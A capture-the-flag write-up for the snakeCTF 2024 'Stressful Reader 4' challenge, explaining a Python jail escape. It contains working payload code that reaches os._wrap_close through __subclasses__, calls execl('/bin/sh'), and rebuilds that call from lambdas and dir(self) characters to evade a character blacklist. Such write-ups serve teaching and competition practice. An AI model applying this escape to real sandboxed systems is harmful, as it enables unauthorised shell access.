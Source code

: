 # Stressful Reader 4 [_snakeCTF 2024 Finals_]

**Category**: misc

## Description

This is the last one, I promise!

## Solution

_I really mean it, this will be the last one._

Before reading the solution, please take a look at the solution of [Stressful Reader 2](https://github.com/MadrHacks/snakeCTF2024-writeups/tree/main/misc/stressful-reader-2) and [Stressful Reader 3](https://github.com/MadrHacks/snakeCTF2024-writeups/tree/main/misc/stressful-reader-3) as it is going to build on the concepts presented there.


The main changes from Stressful Reader 3 that make the exploitation more difficult are the following:

1. There is an input length limit of 6000 characters
2. The string provided as input is first `eval`uated and its result saved
3. The result of the evaluation gets then `exec`uted, with all the buit-ins disabled


The solution requires once again to generate a lot of `lambda` function in order to decompose the strings in `dir(self)` (where self is the instance of the `Jail` class in which the code is executed) and build a string that when evaluated prints the flag. The input length limit requires also the attack payload to be optimized a little bit, so creating `lambda`s where the argument list is `a,aa,aaa,aaaa...` won't help in this case.

Since the input is passed to `eval` and then to `exec`, the input should evaluate to something that is able to execute malicious code _after_ it has been evaluated.
Searching for _"python ctf calling function without builtins"_ on the web gives [this writeup](https://ctftime.org/writeup/27649) as one of the first results, where some _strong hints_ on how to build a working payload are given.

After a bit of experimentation, it should be fairly easy to find that for the challenge's Python version, this piece of code evaluates to `os._wrap_close`:

```python
('a').__class__.__base__.__subclasses__()[155]
```

and with a few more steps it is possible to execute an arbitrary program:

```python
('a').__class__.__base__.__subclasses__()[155].__init__.__globals__['execl']('/bin/sh', '/bin/sh')
```

Great! Now the only problem is that there is no direct access to the `[` and `]` because they are blacklisted, so again the `lambda` trick has to be used. To ease the task, it's better to define a function that generates automatically an optimized list of parameters for a `lambda` function by using only characters which are not blacklisted:

```python
def get_param_names(s):
    available="abdefgilmrstv"
    comb = sorted(set(itertools.combinations(available,4)))
    params = [''.join(comb.pop()) for _ in s]
    return params
```

Then this code will be equivalent to the above and call `/bin/sh`:

```python
    params = get_param_names(range(163))
    dict_params = get_param_names(range(406))
    execl_index = 372
    code = (
        f"(lambda {','.join(params)} : " +
            f"(lambda {','.join(dict_params)} : (lambda _, val: val('/bin/sh', '/bin/sh'))(*{dict_params[execl_index]}))(*{params[155]}.__init__.__globals__.items()))" +
        f"(*('a').__class__.__base__.__subclasses__())"
    )
```

In the above code `params` represents the elements in the list given by `('a').__class__.__base__.__subclasses__()`, and `dict_params` represents the elements in `('a').__class__.__base__.__subclasses__()[155].__init__.__globals__`.

**Remember**, this is the code that will be executed by `exec`, so actually what is missing is the payload that _evaluates to it_.

Why not defining directly a function that given an arbitrary payload tries to rewrite it using only `lambda` functions, the characters from `dir(self)` and the characters which are not blacklisted? `build_string_with_lambdas` enters the room:

```python
def build_string_with_lambdas(wanted, list_of_strings=dir_self):
    global title

    def get_slash():
        idx = title.find("/")
        title_params = get_param_names(title)
        return f"(lambda {','.join(title_params)}: {title_params[idx]})(*self.title)"

    params = get_param_names(list_of_strings)
    string_found = False
    i = 0

    split = re.split(r"[/]", wanted)
    output = ""
    encoded_list = []

    for idx, wanted in enumerate(split):
        if wanted == '':
            encoded_list.append('')
            continue

        last_char_was_not_in_badchars = False
        output = f"(lambda {','.join(params)} : "

        for char in wanted:
            i = 0
            string_found = False

            if char not in badchars:
                if last_char_was_not_in_badchars:
                    output = output[:-2]
                    output += f'{char}"+'
                else:
                    output += f'"{char}"+'
                last_char_was_not_in_badchars = True
            else:
                last_char_was_not_in_badchars = False
                # find the first string in list_of_strings that provides char
                while i < len(list_of_strings) and (not string_found):
                    if (char in list_of_strings[i]):
                        # print(char, "found in ", list_of_strings[i])
                        string_found = True
                    else:
                        i += 1

                assert(i < len(list_of_strings)), f"search failed for {char}"

                source_of_chars = get_param_names(list_of_strings[i])
                idx_of_char = list_of_strings[i].find(char)
                # print("idx of", char, "in", list_of_strings[i], ":", idx_of_char)

                output += f"(lambda {','.join(source_of_chars)} : {source_of_chars[idx_of_char]})(*{params[i]})+"

        # remove last "+" from output
        output = output[:-1]
        output += ")(*dir(self))"
        encoded_list.append(output)

    out = f"+ {get_slash()} + ".join(encoded_list)
    if split[-1] == '':
        out = out[:-2] # hack to get arout the last "+" if the last wanted is ''
    return out
```

This function is ugly but it does the job. The only thing to worry about is that `build_string_with_lambdas("some string")` will return a string that evaluates to `"some string"` in a way that the blacklist checks are bypassed.

With this handy function, the final payload can be generated simply with:

```python
params = get_param_names(range(163))
dict_params = get_param_names(range(406))
execl_index = 372
code = (
    f"(lambda {','.join(params)} : " +
        f"(lambda {','.join(dict_params)} : (lambda _, val: val('/bin/sh', '/bin/sh'))(*{dict_params[execl_index]}))(*{params[155]}.__init__.__globals__.items()))" +
    f"(*('a').__class__.__base__.__subclasses__())"
)

payload = build_string_with_lambdas(code)
```

_And the Python magic happens._